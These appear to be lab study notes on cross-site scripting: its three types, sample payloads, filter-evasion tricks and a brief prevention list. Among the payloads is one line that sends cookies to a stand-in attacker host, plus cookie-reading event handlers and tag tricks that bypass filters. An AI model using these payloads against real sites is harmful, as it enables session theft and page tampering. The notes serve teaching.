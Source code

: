## CROSS-SITE SCRIPTING

```
IP = 10.10.101.143
```

+ XSS a type of injection which can allow an attacker to execute malicious scripts and have it execute on a victims machine.
+ A web application is vulnerable to XSS if it uses unsanitized user input. XSS is possible in Javascript, VBScript, Flash and CSS.
+ Three types of XSS:
	- Stored XSS
	- Reflected XSS
	- DOM-Based XSS

+ Stored cross-site scripting is the most dangerous type of XSS. This is where a malicious string originates from the websites database. This often happens when a website allows user input that is not sanitised when inserted into the database.  
	- `<script>alert(document.cookie)</script>`
	- `<script> document.getElementById('thm-title').innerHTML = 'I am a hacker';</script>`
	- `<script>window.location='http://attacker/?cookie='+document.cookie</script>`

+ In a reflected cross-site scripting attack, the malicious payload is part of the victims request to the website. The website includes this payload in response back to the user. To summarise, an attacker needs to trick a victim into clicking a URL to execute their malicious payload.
	- `<script>alert('Hello')</script>`
	- `<script>window.location.hostname</script>`

+ In a DOM-based XSS attack, a malicious payload is not actually parsed by the victim's browser until the website's legitimate JavaScript is executed. An attackers payload will only be executed when the vulnerable Javascript code is either loaded or interacted with.
	```
	var keyword = document.querySelector('#search')
	keyword.innerHTML = <script>...</script>
	```
	- Payload for an img tag -> `test" onmouseover="alert(document.cookie)"`
	- Change bg color -> `" onmouseover="document.body.style.backgroundColor='red'"`

+ XSS can be used to perform IP and Port scanning.
+ XSS can also be used as to create a keylogger by using javascript to create an event to listen for key-presses.

XSS Filter Evasion
---------------------
+ Bypass script tag filtering by injecting other tags like img.
	- `<img src="test" onerror="alert('Hello')">`
+ Or if alert is blocked use alternatives like confirm.
	- `<img src="test" onerror="confirm('Hello')">`
+ Some other examples to evade filtering:
	- `<img src="test" onerroronerror="alert('HelloHello')">`

Preventing XSS
---------------------
1. Escaping
2. Validating Input
3. Sanitising
